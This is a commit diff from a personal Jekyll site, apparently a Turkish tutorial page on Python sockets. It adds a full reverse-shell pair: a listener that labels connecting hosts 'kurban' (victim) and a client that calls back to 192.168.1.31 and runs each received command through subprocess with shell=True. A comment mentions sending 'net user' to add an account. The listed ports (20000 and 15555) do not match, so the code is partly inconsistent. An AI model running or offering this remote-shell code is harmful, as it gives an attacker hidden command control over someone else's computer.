

Before and after one commit to emredurmaz4/cosmosofcyberspace.github.io, a Jekyll site: the page socket4.html, which Jekyll copies as it is, in a window 1280 px wide. Shown: the top 629 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update socket4.html

```diff
--- a/socket4.html
+++ b/socket4.html
@@ -15,6 +15,104 @@
 
 <span style="background:#008000">"Bağlantı testi için server.py"</span></br>
 
+####################################################################
+Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   server.py  ##
+####################################################################
+
+<span style="background:#8600b3">host="192.168.1.31"
+<span style="background:#8600b3">port=20000
+<span style="background:#8600b3">s=socket.socket()
+
+<span style="background:#8600b3">def bagla():
+<span style="background:#8600b3">    try:
+<span style="background:#8600b3">        s.bind((host,port))
+<span style="background:#8600b3">        s.listen()
+
+<span style="background:#8600b3">    except:
+<span style="background:#8600b3">        print("baglantı hatası")
+<span style="background:#8600b3">        bagla()
+
+<span style="background:#8600b3">def kabul_et():
+<span style="background:#8600b3">    print("Baglantı bekleniyor")
+<span style="background:#8600b3">    baglanti,adres=s.accept()
+<span style="background:#8600b3">    print("Bağlantı gerçekleşti kurban ip:",adres[0],"kurban port:",adres[1])
+<span style="background:#8600b3">    komut_yolla(baglanti)
+<span style="background:#8600b3">    baglanti.close() #serverdan "quit" girersen while döngüsü break olacak ve bu satıra gelecek,daha sonra baglanti kapanacak
+
+
+#serverdan cliente veri(komut) yollamak için sonsuz döngülü bi blok yaratalım
+<span style="background:#8600b3">def komut_yolla(baglanti):
+<span style="background:#8600b3">    while True:
+<span style="background:#8600b3">        cmd=input("Komut gir:")
+<span style="background:#8600b3">        if cmd=="quit":  # eğer quit girmişsem döngüyü sonlandır
+<span style="background:#8600b3">            break #eğer serverdan "quit" girersen komut_yolla() fonksiyonundan çıkması için break kullanıldı
+
+<span style="background:#8600b3">        if len(cmd)>0:
+            #serverdan girdiğim veriyi cliente yollayacağım
+            #cmd girdisini stringden alıp byte a dönüştürmem gerekiyor
+            #yani biz soket üzerinde veri alıp yollarken bunu bytelar üzerinden yapıyoruz
+            #serverdan cliente veriyi yollarken "baglati" değişkeni üzerinden yollarız
+            #Cünkü "baglanti" benim client ile ilişkimi temsil ediyor
+<span style="background:#8600b3">            baglanti.send(cmd.encode("utf-8"))
+<span style="background:#8600b3">            cevap=baglanti.recv(4096).decode("utf-8")
+<span style="background:#8600b3">            print(cevap)
+
+<span style="background:#8600b3">bagla()
+<span style="background:#8600b3">kabul_et()
+
+########################################################################################################################################################
+########################################################################################################################################################
+
+####################################################################
+#Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   client.py  ##
+####################################################################
+
+
+
+<span style="background:#8600b3">import socket
+<span style="background:#8600b3">import os
+<span style="background:#8600b3">import subprocess
+<span style="background:#8600b3">s=socket.socket()
+
+<span style="background:#8600b3">s.connect(("192.168.1.31",15555))
+
+<span style="background:#8600b3">while True:
+<span style="background:#8600b3">    veri=s.recv(1024)
+<span style="background:#8600b3">    if veri[:2].decode("utf-8")=="cd":
+<span style="background:#8600b3">        try:
+<span style="background:#8600b3">            os.chdir(veri[3:].decode("utf-8"))
+<span style="background:#8600b3">            s.send(os.getcwd().encode("utf-8"))
+<span style="background:#8600b3">        except FileNotFoundError:
+<span style="background:#8600b3">            s.send("Dosya bulunamadı...".encode("utf-8"))
+<span style="background:#8600b3">    else:
+
+<span style="background:#8600b3">        if len(veri)>0:
+            #eğer serverdan bir girdi varsa
+
+            #serverdan girilen komutları komut sisteminde çalıştırabilmek için
+            #subprocess adlı modülü çalıştırmak gerekiyor,bu modül sayesinde
+            #hem serverdan girilen komutları komut sisteminde çalıştırabileceğiz
+            #hemde çıktıyı servera yollayabileceğiz.
+            #subprocess modülünün Popen() clasını kullanacağız
+<span style="background:#8600b3">            cmd=subprocess.Popen(veri.decode("utf-8"),shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)
+            #komut sisteminin arka planında çalışacak
+            #2.parametre shell=True,komut sisteminde bu komutu çalıştırmaya izin verecek
+            #stdout ve stderr ı okuyup server a yollamamız lazım
+<span style="background:#8600b3">            output=cmd.stdout.read() + cmd.stderr.read()
+            #output ı string e dönüştürelim
+<span style="background:#8600b3">            output_str=str(output,encoding="cp857")  #####------------------------------------------------>>>>> utf-8 değil cp857 yapılacak nokta
+            #her komutu çalıştırdıktan sonra karşı tarafa bulunduğumuz dizini yollamak istiyorum
+<span style="background:#8600b3">            konum=os.getcwd() #string formatında olduğumuz dizini veriyor
+            #Ben bu ikisini yani "output" ve "konum"  u birleştirip server a yollamak istiyorum
+            #1. parametre toplanacak stringler  2.parametre hangi biçimde kodlayacağımızı belirtiyoruz
+<span style="background:#8600b3">            s.send(str.encode(output_str+"\n"+konum,encoding="utf-8"))
+
+            #komut a "net user nuri 12345" yazdın izin vermedi ve türkçe çıktı verdi bu utf8 ile kodlanmamıştır cp857 ile kodlanmıştır
+            #net user nuri 12345 komutunu serverdan yazdıktan sonra benim client çöküyor UnicodeDecodeError hatası alıyoruz bunu
+            #almamamız için cp857 yapmam gerekiyor
+
+
+
 <span style="background:#8600b3">s.close()</span></br>
 
 
```
